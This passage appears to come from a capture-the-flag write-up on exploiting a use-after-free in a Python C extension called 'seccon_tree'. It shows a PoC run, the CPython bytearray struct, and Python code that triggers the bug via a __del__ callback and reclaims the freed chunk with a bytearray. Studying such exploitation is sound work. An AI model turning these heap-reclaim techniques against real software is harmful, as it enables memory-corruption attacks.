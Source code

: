 ```python
```

will yield:

```bash
user@c19c5a5d3718:/exp$ ./python3.9x poc.py 
[+] Triggering UAF
b'\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00'
b'\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00'
```

After realizing this wasn't going to work, I opted for trying to get a `bytearray` allocation at the same location as the freed `Tree` (which probably should have been my first idea anyway). With allocation I don't mean the actual object, but rather where its contents are stored.

Looking in [Include/cpython/bytearrayobject.h](https://github.com/python/cpython/blob/main/Include/cpython/bytearrayobject.h), this pointer is stored in the `ob_bytes` field of `PyByteArrayObject`:

```c
typedef struct {
    PyObject_VAR_HEAD
    Py_ssize_t ob_alloc;   /* How many bytes allocated in ob_bytes */
    char *ob_bytes;        /* Physical backing buffer */
    char *ob_start;        /* Logical start inside ob_bytes */
    Py_ssize_t ob_exports; /* How many buffer exports */
} PyByteArrayObject;
```

We're lucky that `bytearray().__sizeof__() == 56` and `Tree(X()).__sizeof__() == 40`, so we can be fairly sure that the allocation of a `bytearray` itself will not inadvertedly get allocated at our target chunk.

N.B: if you're not very familiar with python, the `bytearray` object is a mutable version of the `bytes` object. This is useful, as the data is stored in a seperate buffer instead of just appended to the object iself. Additionally, we can change the contents of the buffer after the object has been allocated which might make our life easier.

The following code will successfully allocate a buffer of null bytes at the location of `dangling_ref`:

```python
from seccon_tree import Tree

root = Tree('x')

dangling_ref = None

class X:
    def __del__(self):
        global dangling_ref
        print("[+] Triggering UAF")
        dangling_ref = root.get_child_left()

def trigger():
    root.add_child_left(Tree(X()))
    root.add_child_left(Tree(None))

trigger()

print(dangling_ref)
a = bytearray(40)
print(dangling_ref)
input()
```
